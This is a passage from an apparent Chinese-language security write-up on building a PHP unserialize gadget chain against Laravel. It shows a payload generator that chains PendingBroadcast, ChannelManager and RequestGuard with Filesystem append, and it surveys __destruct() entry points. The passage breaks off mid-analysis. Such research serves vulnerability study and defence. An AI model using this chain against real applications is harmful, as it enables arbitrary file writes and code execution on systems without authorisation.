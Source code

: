 ```
    use Illuminate\Auth\RequestGuard;
    use Illuminate\Filesystem\Filesystem;
    use Illuminate\Notifications\ChannelManager;
    use Illuminate\Broadcasting\PendingBroadcast;

    $c = new RequestGuard([new Filesystem(), 'append']);
    $b = new ChannelManager('call_user_func', [$c, 'user']);
    $a = new PendingBroadcast($b);
    echo urlencode(serialize($a));
}

```

反序列化成功

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5jCFlQQwcNkNbyRCWcYufuwkB5a1lYb4jbcpoc0AQKq1iaJA5rRBC3IoPORicTsuRGLn6HqA13O8tg/640?wx_fmt=png)

补充: 全局搜索 __destruct() 来找到新的可以触发 __call 函数的点, 于是找到了有三个类好用

```
# PendingResourceRegistration
    public function __destruct()
{
        if (! $this->registered) {
            $this->register();
        }
    }
# CollectionConfigurator
    public function __destruct()
{
        if (null === $this->prefixes) {
            $this->collection->addPrefix($this->route->getPath());
        }
        if (null !== $this->host) {
            $this->addHost($this->collection, $this->host);
        }

        $this->parent->addCollection($this->collection);
    }
# ImportConfigurator
    public function __destruct()
{
        $this->parent->addCollection($this->route);
    }

```

首先谈一下 ImportConfigurator 类, 其实我一开始最想用的就是这个, 简单而且和 PendingBroadcast 类的 __destruct() 长得特别像, 参数均可控, 但是本地开 debug 调试后提示这个类不能被反序列化就舍弃了, 有用成的师傅可以分享一下心得

其次就是 CollectionConfigurator 类, 也是和上面反馈了一样的情况, 不让反序列化, 所以就只剩下 PendingResourceRegistration 类了, 亲测可用, 然后先跟进函数 register()
